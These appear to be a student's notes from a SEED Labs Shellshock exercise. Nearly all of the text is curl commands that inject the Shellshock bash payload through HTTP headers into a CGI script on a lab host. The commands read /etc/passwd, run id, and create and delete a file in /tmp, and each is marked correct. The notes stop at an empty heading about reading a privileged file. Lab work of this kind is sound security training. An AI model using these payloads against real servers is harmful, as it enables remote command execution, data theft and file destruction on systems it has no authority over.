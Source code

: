 Read a file
curl -H
` '() { :;}; echo "Content-Type: text/plain"; echo; /bin/cat /etc/passwd' -v  http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
COMPLETE

Process Info (PUID)
curl -A '() { :;}; echo "Content-Type: text/plain"; echo; /bin/id ' -v  http://www.seedlab-shellshock.com/cgi-bin/vul.cgi

Create a file
curl -e '() { :;}; echo "Content-Type: text/plain"; echo; /bin/touch  /tmp/test.txt' -v  http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
CORRECT
TEST using docksh ### then going in to tmp and running ls

Delete a file
curl -e '() { :;}; echo "Content-Type: text/plain"; echo; /bin/rm /tmp/test.txt' -v  http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
CORRECT

Reading a priveledge file



